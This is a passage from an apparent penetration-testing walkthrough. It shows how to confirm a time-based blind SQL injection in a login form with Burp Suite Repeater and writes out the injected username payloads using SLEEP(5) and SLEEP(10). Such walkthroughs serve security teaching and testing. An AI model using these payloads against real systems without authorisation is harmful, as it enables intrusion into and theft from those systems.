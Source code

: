 The injected time based SQLI payload was executed and the response was received with 5 second delay. ![ref2]

**Step 8:** Increase the sleep time in payload to 10 and check the response time. **Before:** username=admin' AND SLEEP(5) AND 'nGdY'='nGdY&password=password **After:** username=admin' AND SLEEP(10) AND 'nGdY'='nGdY&password=password Request section in the Repeater tab: 

![](Aspose.Words.80e94011-2a8e-41f1-804c-81597aa0a459.019.jpeg)

Response section in the Repeater tab: ![ref2]

![](Aspose.Words.80e94011-2a8e-41f1-804c-81597aa0a459.020.jpeg)


[ref1]: Aspose.Words.80e94011-2a8e-41f1-804c-81597aa0a459.002.png
[ref2]: Aspose.Words.80e94011-2a8e-41f1-804c-81597aa0a459.005.png
[ref3]: Aspose.Words.80e94011-2a8e-41f1-804c-81597aa0a459.022.png
[ref4]: Aspose.Words.80e94011-2a8e-41f1-804c-81597aa0a459.026.jpeg
[ref5]: Aspose.Words.80e94011-2a8e-41f1-804c-81597aa0a459.027.jpeg
[ref6]: Aspose.Words.80e94011-2a8e-41f1-804c-81597aa0a459.035.jpeg
[ref7]: Aspose.Words.80e94011-2a8e-41f1-804c-81597aa0a459.036.jpeg